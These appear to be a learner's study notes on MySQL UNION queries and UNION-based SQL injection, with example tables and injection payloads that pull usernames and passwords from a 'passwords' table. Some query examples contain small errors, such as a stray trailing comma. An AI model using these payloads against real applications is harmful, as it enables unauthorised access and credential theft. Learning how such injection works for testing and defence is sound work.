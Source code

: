 ## Union
* Used to combine results from multiple `SELECT` statements
* Allows us to `SELECT` and dump data from all across the DBMS, from multiple tables and databases

```sql
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

```sql
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
```

```sql
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

**Note**: The data types of the selected columns on all positions should be the same.

## Even Columns
* `UNION` statement can only operate on `SELECT` statements with an equal number of columns
* If we attempt to `UNION` two queries that have results with a different number of columns, we get the following error

```sql
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

* Errors because the first `SELECT` returns one column and the second `SELECT` returns two

```sql
SELECT * FROM products WHERE product_id = 'user_input'
```

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

* Query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns

## Uneven Columns
* If we `UNION` with the string `"junk"`, the `SELECT` query would be `SELECT "junk" from passwords` which will always return `junk` or `SELECT 1 from passwords` will always return `1` as the output

**Note**: When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.

**Tip**: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

*  The `products` table has two columns in the above example, so we have to `UNION` with two columns
* If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, where the `2` stands for junk data

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

* If we have more columns

```sql
UNION SELECT username, 2, 3, 4, from passwords-- '
```

```sql
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```